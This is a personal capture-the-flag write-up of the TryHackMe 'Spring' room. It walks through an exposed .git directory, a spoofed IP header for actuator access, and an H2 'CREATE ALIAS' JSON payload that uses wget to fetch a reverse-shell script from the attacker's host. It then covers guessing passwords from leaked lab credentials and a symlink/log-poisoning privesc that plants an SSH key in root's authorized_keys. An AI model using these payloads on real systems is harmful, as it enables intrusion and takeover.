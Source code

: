 ```yaml
---
layout: post
title: CTF Log - Spring {THM}
description: A log of how I did the TryHackMe room Spring by onurshin
summary: A log of the THM room "Spring"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# Spring
## Exposed .git Directory, Actuators /env & /restart RCE
The open ports are 22, 80, 443. The ssl cert information reveals the domain name `spring.thm` and the name `John Smith`. 

Navigating to the site on port 80 redirects to 443 with HTTPS. The landing page is practically blank.

Taking a queue from the name, I do an `ffuf` scan with SecLists's `spring-boot.txt` file. This just informs me that everything under the `actuator/` web directory returns a `403`. 

A recursive directory scan with the `dirsearch` wordlist reveals a `/sources/new/.git`. I use `dumper` from GitTools to download the folder then `extractor` to build out the file structure.

```java
    @Configuration
    @EnableWebSecurity
    static class SecurityConfig extends WebSecurityConfigurerAdapter {

        @Override
        protected void configure(HttpSecurity http) throws Exception {
            http
                    .authorizeRequests()
                    .antMatchers("/actuator**/**").hasIpAddress("172.16.0.0/24")
                    .and().csrf().disable();
        }

    }
}
```

This code snippet from `Application.java` shows why the `actuator/` directory was returning a `403` response. The `hasIpAddress("172.16.0.0/24")` function is forbidding addresses outside of the `172.16.0.0/24` subnet from visiting that directory. 

The `application.properties` file has a lot of useful information which I end up using further in the CTF. At this point, the relevant line is `server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04`. A quick look at the [tomcat documentation](https://tomcat.apache.org/tomcat-8.5-doc/api/org/apache/catalina/valves/RemoteIpValve.html#:~:text=Name%20of%20the%20Http%20Header%20read%20by%20this%20valve%20that%20holds%20the%20list%20of%20traversed%20IP%20addresses%20starting%20from%20the%20requesting%20client) shows that this replaces the usual `x-forwarded-for`. Knowing this, I'm able to send a request using the `x-9ad42dea0356cb04` header to tell the server that my IP is one from the correct subnet. 

![assets/media/spring/x-forwarded-for.png](GET request with the aforementioned header parameter with 172.16.0.0 value, 200 response by server)

This time the server lets me through and responds with a JSON of the available endpoints:

```json
{
    "_links":
    {
        "self":
        {
            "href": "https://spring.thm/actuator",
            "templated": false
        },
        "beans":
        {
            "href": "https://spring.thm/actuator/beans",
            "templated": false
        },
        "health":
        {
            "href": "https://spring.thm/actuator/health",
            "templated": false
        },
        "health-path":
        {
            "href": "https://spring.thm/actuator/health/{*path}",
            "templated": true
        },
        "shutdown":
        {
            "href": "https://spring.thm/actuator/shutdown",
            "templated": false
        },
        "env-toMatch":
        {
            "href": "https://spring.thm/actuator/env/{toMatch}",
            "templated": true
        },
        "env":
        {
            "href": "https://spring.thm/actuator/env",
            "templated": false
        },
        "mappings":
        {
            "href": "https://spring.thm/actuator/mappings",
            "templated": false
        },
        "restart":
        {
            "href": "https://spring.thm/actuator/restart",
            "templated": false
        }}}
```

There's a technique for getting code execution through exposed actuator endpoints that I learned from [this site](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database). 

> <b>tldr;</b>
> Can use the `/env` endpoint to set an environment variable which will have a SQL query executed on restart. I use the `CREATE ALIAS` SQL command to define a Java function, which I then use to execute arbitrary commands on the OS. 

It takes two payloads and restarts for me to get a reverse shell. First to download the shell script onto the machine, then to execute it.

```json
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('wget 10.13.1.225:9090/r.sh -O /tmp/r.sh');"}
```

This is the first payload, to download the script. I then use the `/restart` endpoint to restart the application and have the command executed. The second payload just calls `/bin/bash /tmp/r.sh`. I make sure to add `Content-Type: application/json` to each POST request as well. 

I get a shell as `nobody`. 

## Password Guessing
![assets/media/spring/nobody_env_vars.png](Environment variables, password is PrettyS3cureKeystorePassword123.)

This screenshot shows the environment variables for the user `nobody`. 

Of note is the `SUDO_COMMAND` variable that's revealing a password used in the launch of the actuator application. Interestingly, a similarly formatted password was present in the `.git` directory that I cloned earlier. 

```java
spring.security.user.name=johnsmith
spring.security.user.password=PrettyS3cureSpringPassword123.
debug=false
spring.cloud.config.uri=
```

This is a snippet of code from the `application.properties` file from the leaked `.git` directory. The same password format is used. I would have brute forced `su` using [sucrack](https://github.com/hemp3l/sucrack) but after around five guesses I hit the correct password and get a shell as `johnsmith`. 

## Log Poisoning & Symbolic Link
This was a really neat privesc, I enjoyed it a lot. 

In `johnsmith`'s home directory there's a `/tomcatlogs` directory. It appears to contain logs whose names are an epoch timestamp.

![assets/media/spring/systemctl.png](systemctl status spring output)

There are two things to notice about the above screenshot. The first is that one of the processes spawned from the spring service is a `tee` of the logs to a logfile in the `/tomcatlogs` directory. The second is that I was able to use `systemctl shutdown spring` and the service automatically restarted, prompting a `tee` command to a new log file. 

```java
    @RestController
    //https://spring.io/guides/gs/rest-service/
    static class HelloWorldController {
        @RequestMapping("/")
        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {
            System.out.println(name);
            return String.format("Hello, %s!", name);
        }
    }
```

The code above is from the `Application.java` file. It defines a class and function that take the `name` GET parameter and display it on the page, at the landing page location, `/`. 

![assets/media/spring/name_test.png](GET request with "oriel" as name parameter value)

This screenshot shows a test of my hypothesis and confirms that the `name` parameter's value is reflected in the page. 

```bash
johnsmith@spring:~$ cat test.txt 
2021-10-17 20:09:15.385  INFO 8014 --- [           main] trationDelegate$BeanPostProcessorChecker : Bean 'org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration' of type [org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration$$EnhancerBySpringCGLIB$$7af57240] is not eligible for getting processed by all BeanPostProcessors (for example: not eligible for auto-proxying)

  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.3.1.RELEASE)

2021-10-17 20:09:16.483  INFO 8014 --- [           main] c.c.c.ConfigServicePropertySourceLocator : Fetching config from server at : http://localhost:8888

<!--Snipped!-->

World
oriel
johnsmith@spring:~$ 
```

Next, is a look through a log file which confirms that the value `oriel` is output into the log file. The filename `test.txt` will now be discussed. 

Since the `tee` command doesn't delete a file if it is already present, I'm able to create many log files whose names could contain the exact epoch time at which the service's `tee` command is executed. 

These files are then symlinked to `/root/.ssh/authorized_keys`. The command to perform this is `for x in {1634500389..1634502000};do touch $x.log && ln -s -f ~/test.txt $x.log;done`. I based the epoch time value on the current log file's and then added a thousand or two. 

![assets/media/spring/post_ssh_key.png](GET request with public SSH key as name parameter value)

Since sshd ignores incorrect lines in the `authorized_keys` file, I'm able to send my URL encoded RSA public key through the `name` parameter. My public key will then be logged to one of my thousand symlinked files, which will put it in `root`'s `authorized_keys` file. 

I am then able to `ssh` in as `root`. 